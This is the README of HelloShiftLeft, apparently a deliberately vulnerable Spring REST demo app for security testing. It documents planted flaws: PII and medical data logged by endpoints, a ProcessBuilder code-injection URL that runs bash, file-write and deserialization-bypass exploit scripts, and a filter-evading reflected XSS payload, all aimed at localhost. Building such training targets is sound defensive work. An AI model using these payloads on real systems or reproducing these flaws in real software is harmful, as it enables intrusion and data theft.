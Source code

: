 

# HelloShiftLeft

This is a demo application which provides a real world representation of a REST service that uses a mix of convention and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as sensitive data leaking to logs, data secrets leaks, authentication bypass, remote code execution, XSS vulnerabilites etc. The sample sensitive data is a mix of financial data such as account information, medical data of patients, and other PII data such as customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilites. The application is built on the Spring Framework and exposes a series of endpoints and APIs for queries and simulating exploits.

## Build
 ```sh
 $ git clone https://github.com/ShiftLeftSecurity/HelloShiftLeft.git
 $ cd HelloShiftLeft
 $ mvn clean package
 ```
 
## Run
 ```sh
 $ java -jar target/hello-shiftleft-0.0.1.jar
```

## Exercise Vulnerabilites and Exposures
Once the application starts, vulnerabilites and exposures in it can be tested with API access patterns described below and through example scripts provided in the [exploits](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits) directory. These are summarized below:  

### Sensitive Data Leaks to Log

| URL | Purpose |
| --- | ------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers   | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients    | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1   | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account     | Returns JSON representation of all available accounts and their details |

All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

[http://localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()](http://localhost:8081/search/user?foo=new%20java.lang.ProcessBuilder(%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27echo%203vilhax0r%3E%2Ftmp%2Fhacked%27%7D).start())

This creates a file `/tmp/hacked` with the content `3vilhax0r`

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:
```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```
This creates a file named `testfile` with `3vilhax0r` as its contents

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:
```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
```

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the _hidden_ `/debug` endpoint as follows:

[http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>](http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>)

It raises and alert dialogue and returns the Customer object data.
